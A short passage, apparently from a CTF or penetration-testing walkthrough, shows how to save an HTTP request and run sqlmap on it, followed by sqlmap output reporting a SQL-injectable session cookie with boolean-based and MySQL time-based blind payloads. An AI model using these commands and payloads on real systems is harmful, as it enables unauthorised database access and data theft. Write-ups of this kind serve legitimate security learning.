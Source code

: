 - Continue the attack with Intruder or proceed with `sqlmap`

```bash
nano req2.txt # paste the Request with unmodified Cookie

sqlmap -r req2.txt --level=2

---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9663=9663 AND 'XdcY'='XdcY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 9555 FROM (SELECT(SLEEP(5)))biVe) AND 'bAxW'='bAxW
---
```

![](.gitbook/assets/2025-02-24_22-43-34_906.png)
